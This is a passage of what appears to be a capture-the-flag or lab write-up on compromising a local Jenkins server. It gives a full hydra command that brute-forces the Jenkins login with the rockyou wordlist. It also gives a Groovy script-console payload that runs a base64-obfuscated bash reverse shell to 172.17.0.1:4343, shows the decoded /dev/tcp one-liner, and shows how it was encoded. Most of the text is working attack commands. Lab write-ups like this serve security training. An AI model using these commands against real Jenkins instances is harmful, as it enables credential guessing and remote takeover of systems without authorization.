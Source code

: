 <br /><br />

**Bruteforce with hydra**

```bash
hydra localhost -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -s 8484 -V -l admin -P /usr/share/wordlists/rockyou.txt
```



<br /><br />

**Log into jenkins**

Now we can get a reverse shell.

Go to Manage Jenkins –>Script Console , write a Groovy reverse shell and  start a netcat listener

```bash
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQzNDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

The above code executes a bash reverse shell command encoded in base64

```bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/4343 0>&1'
```

<br />

```bash
root@ip-10-10-228-42:~# echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/4343 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQzNDMgMD4mMScK
```

<br />

![](./assets/16.png)
